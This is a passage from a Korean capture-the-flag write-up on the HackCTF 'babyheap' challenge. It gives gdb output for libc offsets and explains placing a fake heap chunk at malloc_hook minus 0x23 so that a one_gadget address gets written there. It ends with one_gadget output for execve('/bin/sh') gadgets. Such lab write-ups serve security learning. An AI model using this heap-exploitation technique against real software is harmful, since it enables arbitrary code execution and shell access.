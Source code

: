 <pre>
gdb-peda$ p free
$1 = {<text variable, no debug info>} 0x844f0 <free>
</pre>

**free_offset=0x844f0**

이렇게 libc\_base를 leak할 것이다.

---

full relro 때문에 got overwrite가 불가능하다. 때문에 hook을 이용할 것이다. hook이란 함수를 불러오기 이전에 hook을 참조하여 어떤 주소가 적혀있으면 그 주소로 이동하게 된다. 따라서 이 hook이 있는 부분에 chunk를 만들어서 hook에 one\_gadget의 주소를 적을 것이다.

malloc의 hook을 조작해보도록 하자. malloc\_hook 근처의 메모리는 다음과 같다.

<pre>
gdb-peda$ x/20gx 0x7ffff7dd1b10-0x40
0x7ffff7dd1ad0 <_IO_wide_data_0+272>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1ae0 <_IO_wide_data_0+288>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1af0 <_IO_wide_data_0+304>:	0x00007ffff7dd0260	0x0000000000000000
0x7ffff7dd1b00 <__memalign_hook>:	0x00007ffff7a92e20	0x00007ffff7a92a00
0x7ffff7dd1b10 <__malloc_hook>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b20 <main_arena>:	0x0000000100000000	0x0000000000000000
0x7ffff7dd1b30 <main_arena+16>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b40 <main_arena+32>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b50 <main_arena+48>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b60 <main_arena+64>:	0x0000000000000000	0x0000000000000000
</pre>

다음은 로컬에서 진행한 임의의 메모리라는 것을 감안하자. chunk의 size check를 통과하기 위해서 필요한 크기를 찾으면 0x7ffff7dd1af5에 있는 7f를 사용할 수 있겠다. 따라서 chunk의 시작 주소를 0x7ffff7dd1aed라고 적으면 chunk의 size공간에 0x7f가 위치하게 될 것이다. 이 0x7ffff7dd1aed라는 공간은 malloc\_hook에서 **0x23**을 뺀 공간이다. 그리고 size check이후 **19bytes**의 dummy가 필요하다는 것을 기억하자. malloc\_hook의 offset은 다음과 같다.

<pre>
gdb-peda$ p &__malloc_hook
$1 = (<data variable, no debug info> *) 0x3c4b10 <__malloc_hook>
</pre>

**malloc\_hook\_offset=0x3c4b10**

다음으로 one\_gadget은 다음을 사용할 것이다.

<pre>
sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/31.babyheap$ one_gadget libc.so.6
0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf02a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL
